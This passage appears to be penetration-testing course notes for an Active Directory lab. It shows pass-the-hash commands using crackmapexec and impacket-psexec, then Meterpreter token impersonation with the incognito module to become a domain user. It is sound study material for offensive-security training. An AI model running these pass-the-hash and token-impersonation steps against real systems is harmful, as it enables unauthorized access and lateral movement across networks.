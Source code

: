 * If you see something like this, odds are this account is disabled and you cannot do anything with it
* Still worth a shot!

## Pass the Hash Attacks

SMB:

```
crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <hash> --local-auth
```

Get a pwn3d?

Time to get a shell:

```
impacket-psexec "Frank Castle":@192.168.57.141 -hashes LM:NT
```

## Token Impersonation

What are tokens?

* Tokens are <mark style="color:yellow;">temporary keys that allow you access to a system/network</mark> without having to provide credentials each time that you access a file.&#x20;
* This is comparable to <mark style="color:yellow;">cookies</mark> for computers

There are <mark style="color:yellow;">two types</mark> of tokens:

* <mark style="color:yellow;">Delegate</mark> - Created for logging into a machine or using RDP
* <mark style="color:yellow;">Impersonate</mark> - "non-interactive"; such as attaching a network drive or a domain logon script

### Meterpreter Shell

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > load incognito
Loading extensino incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available
MARVEL\fcastle
```

* Try to look for a user that has a delegation token available that you have access to

The next thing we are going to do is try to impersonate that user:

```
meterpreter > impersonate_token marvel\\fcastle
Delegation tokens available
Successfully impersonated user MARVEL\fcastle

meterpreter > shell
C:\Windows\system32>whoami
marvel\fcastle
```
